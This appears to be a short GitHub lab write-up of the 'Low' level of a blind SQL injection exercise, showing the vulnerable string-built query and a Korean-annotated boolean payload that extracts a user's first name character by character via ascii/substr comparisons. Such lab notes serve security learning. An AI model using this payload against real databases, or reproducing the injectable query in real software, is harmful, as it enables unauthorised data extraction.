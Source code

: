 # SQL Injection(Blind)

## Low

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-1.png?raw=true" width="500" height="400"/>

    SELECT first_name, last_name FROM users WHERE user_id = '$id';";

    1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91# 등 숫자를 바꾸며 비교해본다.
<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-2.png?raw=true" width="700" height="400"/>
